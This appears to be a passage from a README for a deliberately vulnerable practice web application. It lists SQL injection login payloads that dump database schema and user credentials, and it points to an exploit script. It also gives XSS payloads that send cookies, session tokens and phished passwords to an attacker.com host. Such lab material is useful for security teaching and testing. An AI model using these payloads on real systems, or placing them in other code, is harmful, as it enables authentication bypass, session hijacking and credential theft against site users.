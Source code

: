 ### Advanced Exploitation
```sql
# Database enumeration
Username: admin' UNION SELECT sql,name,type,tbl_name FROM sqlite_master --
Password: anything

# Extract all users
Username: admin' UNION SELECT username,password,email,role FROM users --
Password: anything

# Extract all products
Username: admin' UNION SELECT name,price,description,stock FROM products --
Password: anything
```

### Automated Testing
```bash
python exploits/sqli_exploit.py
```

### Expected Results
- Bypass authentication
- Extract database schema
- Dump user credentials
- Access admin functionality

---

## 2. Cross-Site Scripting (XSS)

### 🎯 Target: Product Comments
**Vulnerability**: Unfiltered user input in comments

### Basic XSS Payloads
```html
<!-- Alert box -->
<script>alert('XSS Vulnerability!')</script>

<!-- Cookie stealing -->
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

<!-- Session hijacking -->
<img src="x" onerror="fetch('http://attacker.com/log?session='+document.cookie)">
```

### Advanced XSS
```html
<!-- DOM manipulation -->
<script>
document.body.innerHTML = '<h1>Site Compromised!</h1>';
</script>

<!-- Credential harvesting -->
<script>
var form = document.createElement('form');
form.innerHTML = 'Username: <input type="text" name="user"><br>Password: <input type="password" name="pass"><br><input type="submit" value="Re-login">';
form.onsubmit = function(e) {
    e.preventDefault();
    fetch('http://attacker.com/harvest', {method: 'POST', body: new FormData(this)});
};
document.body.appendChild(form);
</script>
```